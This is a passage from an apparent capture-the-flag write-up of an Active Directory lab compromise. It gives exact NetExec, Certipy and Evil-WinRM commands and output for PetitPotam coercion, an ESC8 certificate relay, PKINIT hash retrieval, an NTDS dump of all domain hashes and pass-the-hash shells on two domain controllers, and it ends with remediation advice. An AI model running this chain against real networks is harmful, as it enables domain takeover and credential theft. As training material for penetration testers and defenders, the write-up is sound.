With the relay running, we use NetExec's `coerce_plus` module to trigger PetitPotam, which abuses MS-EFSRPC to make DC1 authenticate to our machine.

```
nxc smb 10.1.111.107 -u 'mike.silver' -p '0xB1rdWasHere1337!' -M coerce_plus -o LISTENER=10.200.59.223 METHOD=PetitPotam
```

```
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\mike.silver:0xB1rdWasHere1337! 
COERCE_PLUS 10.1.111.107    445    DC1              VULNERABLE, PetitPotam
COERCE_PLUS 10.1.111.107    445    DC1              Exploit Success, efsrpc\EfsRpcAddUsersToFile
```



*NetExec coerce_plus triggering PetitPotam against DC1*

Neither Certipy nor the coercion needed the `Tools` access, since PetitPotam by default needs only a domain login as well. Back in the relay window, the authentication lands.

```
[*] (SMB): Received connection from 10.1.111.107, attacking target http://10.1.87.238
[*] HTTP Request: GET http://10.1.87.238/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://10.1.87.238/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://10.1.87.238/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] (SMB): Authenticating connection from DISMAY/DC1$@10.1.111.107 against http://10.1.87.238 SUCCEED [1]
[*] Requesting certificate for 'DISMAY\\DC1$' based on the template 'DomainController'
[*] http://DISMAY/DC1$@10.1.87.238 [1] -> HTTP Request: POST http://10.1.87.238/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Certificate issued with request ID 27
[*] Retrieving certificate for request ID: 27
[*] http://DISMAY/DC1$@10.1.87.238 [1] -> HTTP Request: GET http://10.1.87.238/certsrv/certnew.cer?ReqID=27 "HTTP/1.1 200 OK"
[*] Got certificate with DNS Host Name 'DC1.dismay.hsm'
[*] Certificate object SID is 'S-1-5-21-1359501962-4064634841-3558559731-1000'
[*] Saving certificate and private key to 'dc1.pfx'
[*] Wrote certificate and private key to 'dc1.pfx'
[*] Exiting...
```



*ESC8 relay: DC1$ authentication relayed to DC2 and a certificate issued for DC1$*

Certipy relays `DC1$` to DC2's endpoint, and the CA issues a certificate carrying DC1's DNS host name and SID. With the PFX we authenticate over PKINIT, the Kerberos extension that lets a certificate stand in for a password, and pull the NT hash.

```
certipy-ad auth -pfx 'dc1.pfx' -dc-ip '10.1.111.107'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC1.dismay.hsm'
[*]     Security Extension SID: 'S-1-5-21-1359501962-4064634841-3558559731-1000'
[*] Using principal: 'dc1$@dismay.hsm'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc1.ccache'
[*] Wrote credential cache to 'dc1.ccache'
[*] Trying to retrieve NT hash for 'dc1$'
[*] Got hash for 'dc1$@dismay.hsm': aad3b435b51404eeaad3b435b51404ee:4c3b5f03ba4aff70d23799079d3a1cd2
```



*Certipy PKINIT: TGT and NT hash for DC1$*

Certipy gets that hash by requesting a Kerberos ticket to itself and reading the credential blob out of the ticket's PAC.

## NTDS Dump

NetExec never touches NTDS.dit directly. It asks DC1 to replicate every account, the same way domain controllers sync with each other, which is why a domain controller machine account is all we need.

```
nxc smb 10.1.111.107 -u 'DC1$' -H '4c3b5f03ba4aff70d23799079d3a1cd2' --ntds
```

```
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\DC1$:4c3b5f03ba4aff70d23799079d3a1cd2 
SMB         10.1.111.107    445    DC1              [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.1.111.107    445    DC1              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.1.111.107    445    DC1              Administrator:500:aad3b435b51404eeaad3b435b51404ee:b20bd68c786d847c122ed2b1e8ab60b0:::
SMB         10.1.111.107    445    DC1              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.1.111.107    445    DC1              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:746e5739a93cf20f26f6952227a3c321:::
SMB         10.1.111.107    445    DC1              dismay.hsm\mike.silver:1108:aad3b435b51404eeaad3b435b51404ee:c5b3940d8ac6a958780d27b462595cf4:::
SMB         10.1.111.107    445    DC1              dismay.hsm\wang.kali:1109:aad3b435b51404eeaad3b435b51404ee:3c96bcb2622d45fc301fd72ba3004dd9:::
SMB         10.1.111.107    445    DC1              dismay.hsm\nadia.robin:1110:aad3b435b51404eeaad3b435b51404ee:bd0ff5e06c9ccec992bb8f96d986effb:::
SMB         10.1.111.107    445    DC1              dismay.hsm\jena.yamazaki:1111:aad3b435b51404eeaad3b435b51404ee:c5b3940d8ac6a958780d27b462595cf4:::
SMB         10.1.111.107    445    DC1              dismay.hsm\guy.rookie:1112:aad3b435b51404eeaad3b435b51404ee:bfbb44b71a8f029be27d12097fe84d0b:::
SMB         10.1.111.107    445    DC1              DC1$:1000:aad3b435b51404eeaad3b435b51404ee:4c3b5f03ba4aff70d23799079d3a1cd2:::
SMB         10.1.111.107    445    DC1              DC2$:1114:aad3b435b51404eeaad3b435b51404ee:c897118f0304248ae56d198eb45987a0:::
SMB         10.1.111.107    445    DC1              [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/ntds/DC1_10.1.111.107_2026-11-18_034531.ntds of which 8 were added to the database
SMB         10.1.111.107    445    DC1              [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.1.111.107    445    DC1              [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC1_10.1.111.107_2026-11-18_034531.ntds | cut -d ':' -f1
```



*NTDS dump as DC1$, with the Administrator hash recovered*

The access denied line is expected. NetExec first tries remote registry for the boot key, and `DC1$` is not an administrator on its own domain controller, but the replication path does not need it. The dump gives us the `Administrator` NT hash `b20bd68c786d847c122ed2b1e8ab60b0`.

## Shell as Administrator (DC1, user.txt)

We log in to DC1 over WinRM with `Administrator`'s NT hash.

```
evil-winrm -i '10.1.111.107' -u 'administrator' -H 'b20bd68c786d847c122ed2b1e8ab60b0'
```

```
*Evil-WinRM* PS C:\Users\wang.kali\Desktop> dir

    Directory: C:\Users\wang.kali\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----         6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        12/12/2025  12:18 PM             32 user.txt
```



*The Evil-WinRM session on DC1 as Administrator with user.txt listed on the wang.kali desktop*

We have a shell on DC1 as the domain Administrator. `user.txt` is on `wang.kali`'s desktop.

## Shell as Administrator (DC2, root.txt)

`Administrator` is a domain account, so the same hash logs in to DC2.

```
evil-winrm -i '10.1.87.238' -u 'administrator' -H 'b20bd68c786d847c122ed2b1e8ab60b0'
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----         6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        12/12/2025   1:52 PM             32 root.txt
```



*The Evil-WinRM session on DC2 as Administrator with root.txt listed on the desktop*

`root.txt` is on the Administrator's desktop.

## Final Thoughts

I put the most care into keeping the two domain controllers straight. The CA sat on DC2 and the coercion went at DC1, and knowing which host did what mattered more than any single command.

Both recovered passwords came out of the recycle bin. A file in the recycle bin has not been deleted, and a password that lands in a document needs rotating, not just removing. On the CA, HTTP enrollment should be off and HTTPS with channel binding required. DC1 required SMB signing, and it did not stop the relay, because the relay landed on HTTP, not SMB.

— 0xB1rd
